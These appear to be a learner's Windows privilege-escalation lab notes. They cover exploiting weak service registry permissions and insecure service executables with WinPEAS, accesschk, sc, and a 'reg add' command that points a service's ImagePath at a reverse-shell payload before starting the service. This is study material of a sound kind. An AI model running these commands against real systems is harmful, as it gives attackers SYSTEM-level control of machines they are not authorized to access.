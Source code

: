 -----------------------
### Weak Registry Permissions:
- Here we'll try to exploit services with weak registry permissions.
- to look for we need to make use of `Winpeas` with `servicesinfo` option. The output looks similar to this
```
����������͹ Looking if you can modify any service registry
� Check if you can modify the registry of a service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-permissions                                                                                          
    HKLM\system\currentcontrolset\services\regsvc (Interactive [FullControl])

```
- No we go the name of service which is `regsvc`, so lets dig deep about this service, so run `sc qc regsvc` and the output is,
```
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
- Some cool fact is that the path is quotes so no **Unquoted Service Path**.
- Now lets run `accesschk.exe` and lets dig deep, so run `accesschk /acceptula -uvwqk <path of registry>`(which is `HKLM\system\currentcontrolset\services\regsvc`)
- look for `RW NT AUTHORITY\INTERACTIVE(KEY_ALL_ACCESS)` in output and we're now good to exploit.
- Noe lets see the options within the registry by using `reg query HKLM\system\currentcontrolset\services\regsvc` and I found an options called `ImagePath` which takes executable value, so lets exploit it. First of all create a reverse-shell.
- Now run `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`, choose path of payload according to ur requirement.
- Now run the service, `net start regsvc` and hurray! I got the shell.

-----------------------
### Insecure Service Executables:
- Here the File permissions of a service is accessible by all! We try to change the executable of the service and we're good to go!
- Lets run **Winpeas** specifically with **servicesinfo** module and lets see anything interesting, and the output is,
```
filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]

```
- Everyone have access to the file for the service `filepermsvc`, so we'll create a payload a reverse_shell and replace that with the executable of the service and we'll obtain shell.
- This is kind of easy compared to above.
